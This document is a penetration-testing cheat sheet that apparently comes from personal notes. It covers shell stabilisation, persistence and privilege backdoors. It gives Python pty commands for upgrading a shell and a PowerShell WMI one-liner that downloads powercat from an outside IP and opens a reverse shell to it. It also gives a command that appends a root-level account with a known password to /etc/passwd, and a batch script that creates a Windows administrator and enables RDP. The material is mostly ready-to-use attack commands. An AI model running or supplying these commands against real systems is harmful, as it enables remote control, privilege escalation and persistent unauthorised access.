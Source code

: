 #### Full TTY

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg;
export SHELL=/bin/bash; export TERM=screen; stty rows 81 columns 238; reset;
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl Z
stty raw -echo; fg
reset
```

- [Full TTYs - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
- [Upgrading Simple Shells to Fully Interactive TTYs - ropnop blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Upgrading simple (reverse-)shells to fully interactive TTYs](https://gist.github.com/rollwagen/1fdb6b2a8cd47a33b1ecf70fea6aafde)

#### Persistence

- [nohup](https://www.gnu.org/software/coreutils/manual/html_node/nohup-invocation.html#nohup-invocation)
- [besimorhino/powercat](https://github.com/besimorhino/powercat) - netshell features all in version 2 powershell
- [Windows Powershell nohup](https://qiita.com/aimpast/items/dbf20b94a102a37ca6bc)

```powershell
Invoke-Wmimethod -Class Win32_Process -Name Create -ArgumentList "powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.16.5/powercat.ps1'); mycat -c 10.10.16.5 -p 443 -e powershell;"
```

##### Create root user

```bash
# foo:$1$mysalt$4Lz7hS.y2V54mV2gJXEKR/:0:0::/tmp/foo:/bin/bash
echo foo:$(openssl passwd -1 -salt mysalt password):0:0::/tmp/foo:/bin/bash >> /etc/passwd

# login with password user
su foo  # enter 'password'
```

windows add-admin.bat

```bat
@ECHO OFF
:: This batch file adds user to Administrator and enables RDP
Title Add user
echo Adding user...
net user myadmin password1@ /add
net localgroup Administrators myadmin /add
net localgroup "Remote Desktop Users" hoge /add
ECHO Enabling RDP...
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
ECHO ====================
ECHO User added
ECHO ====================
net users
```
